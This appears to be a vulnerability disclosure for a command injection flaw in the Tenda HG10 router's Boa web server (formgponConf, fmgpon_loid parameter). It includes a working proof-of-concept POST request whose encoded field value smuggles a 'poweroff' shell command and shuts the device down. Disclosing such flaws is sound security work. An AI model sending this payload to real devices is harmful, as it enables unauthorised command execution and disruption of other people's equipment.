




# TARGET

**Product:** Tenda HG10
 **Model:** AC1200 Dualband Wi-Fi xPON ONT
 **Vendor:** Tenda Technology
 **Official Website:** https://www.tendacn.com/
 **Firmware Version:** HG7_HG9_HG10re_300001138

# BUG TYPE

**Command Execution Vulnerability (Command Injection)**

# Abstract

A command execution vulnerability exists in the Tenda HG10 AC1200 Dualband Wi-Fi xPON ONT router. The vulnerability is located in the Boa web server's `formgponConf` interface and is related to the handling of the `fmgpon_loid` parameter. Due to insufficient input validation and filtering of this user-controllable parameter, an attacker can inject system commands through a specially crafted request. Successful exploitation allows an unauthenticated attacker to execute arbitrary commands on the affected device.

# Details

The Boa web server's `formgponConf` function was analyzed using IDA Pro.
The `fmgpon_loid` parameter is taken from user input and then used while constructing a command string that is executed by the firmware. Because the value is not properly validated, escaped, or filtered before command execution, shell metacharacters can alter the intended command flow.



# POC

The affected endpoint is `POST /boaform/admin/formgponConf HTTP/1.1`.

The crafted request used during verification is shown below:

```http
POST /boaform/admin/formgponConf HTTP/1.1
Host: 192.168.1.1
Content-Length: 169
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) Apple
WebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safa
ri/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/
signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.1/gpon.asp
fmgpon_loid=%22%3Bpoweroff%3B%22&fmgpon_loid_password=&fmgp
on_ploam_password=1234567890&omci_olt_mode=0&apply=Apply+Ch
anges&submit-url=%2Fgpon.asp&postSecurityFlag=42231
```

Before the attack, the target device is in a normal state.

The malicious request is sent to the target device using Burp Suite.

After the request is processed, the injected command powers off the device, confirming command execution.







